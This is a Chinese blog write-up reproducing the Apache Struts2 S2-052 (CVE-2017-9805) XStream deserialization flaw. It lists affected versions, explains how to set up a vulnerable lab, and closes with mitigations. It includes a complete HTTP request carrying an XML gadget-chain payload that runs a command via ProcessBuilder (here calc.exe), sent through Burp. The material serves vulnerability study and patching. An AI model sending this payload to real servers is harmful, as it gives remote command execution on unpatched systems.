






# 【漏洞复现】S2-052 (CVE-2017-9805) - fox-yu - 博客园

> 原文：[`www.cnblogs.com/fox-yu/p/7867432.html`](https://www.cnblogs.com/fox-yu/p/7867432.html)

# 一、漏洞描述

         Struts2 的 REST 插件，如果带有 XStream 组件，那么在进行反序列化 XML 请求时，存在未对数据内容进行有效验证的安全隐患，可能发生远程命令执行。

# 二、受影响版本

         Struts2.5 – Struts2.5.12 版本

         Struts2.3.33 版本

# 三、漏洞 POC

```
POST /struts2-rest-showcase/orders/3/edit HTTP/1.1 Host: localhost:8888 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Referer: http://localhost:8888/struts2-rest-showcase/orders.xhtml
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.6,en;q=0.4
Cookie: JSESSIONID=3B1C6366CDF4E1B8D47B5FA91B5452B8
Connection: close
Content-Type: application/xml
Content-Length: 1517

<map> 
<entry> 
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command> <string>calc.exe</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
</entry> 
</map>
```

# 四、漏洞复现

## 漏洞环境包

从 struts2 的官网下载最后受影响的版本 struts-2.5.12，地址： 

[`archive.apache.org/dist/struts/2.5.12/struts-2.5.12-apps.zip`](http://archive.apache.org/dist/struts/2.5.12/struts-2.5.12-apps.zip)

注意下载 struts-2.5.12-apps 即可，不需要下载 struts-2.5.12-all.zip。不然 struts-2.5.12-all.zip 中包含很多其他的东西。 

## Tomcat 环境部署

直接使用 XAMPP 软件。可一键部署 Struts 环境的部署。

 

注意：启动 Tomcat 时可能出现错误打不开，发现是端口被占用，通过查看进程，发现是由于 burpsuit 默认监听的端口也是 8080，在启动 burpsuit 时会打不开 Tomcat，解决办法：修改 burpsuit 的监听端口。

启动之后访问 127.0.0.1:8080，出现以下页面表示环境搭建成功。



## 漏洞环境部署



拿到 struts-2.5.12-apps 之后，将其中的 app 目录下的 struts2-rest-showcase.war 文件放到 webapps 目录下，然后设置一下 conf/server.xml 文件即可。 

 

这里把 appBase 设置为 webapps 目录，然后 unpackWARs 设置为 true，这样就会自动解包 xxx.war，autoDeploy 也设置为 true(热部署?) 然后就可以浏览器访问了。

 

## 漏洞复现

之后点击任意一个进行编辑，点击提交 post 数据，使用 burpsuit 进行拦截抓包。将请求中的 Content-Type 的值改为 application/xml,然后 POST 的数据用 PoC 中的 xml 内容代替。

可以看到，返回页面显示报错信息，并成功弹出计算器。

 

# 五、解决方案

      1、升级到 Apache Struts 版本 2.5.13

      2、最好的选择是在不使用时删除 Struts REST 插件，或仅限于服务器普通页面和 JSONs：

<constant name="struts.action.extension" value="xhtml,,json" />

      3、限制服务端扩展类型，删除 XML 支持。

      由于应用的可用类的默认限制，某些 REST 操作可能会停止工作。在这种情况下，请调查介绍的新接口以允许每个操作定义类限制，那些接口是：

org.apache.struts2.rest.handler.AllowedClasses

org.apache.struts2.rest.handler.AllowedClassNames

org.apache.struts2.rest.handler.XStreamPermissionProvider

```
笨鸟先飞早入林，笨人勤学早成材。

转载请注明出处：
撰写人：fox-yu  [`www.cnblogs.com/fox-yu/`](http://www.cnblogs.com/fox-yu/)
```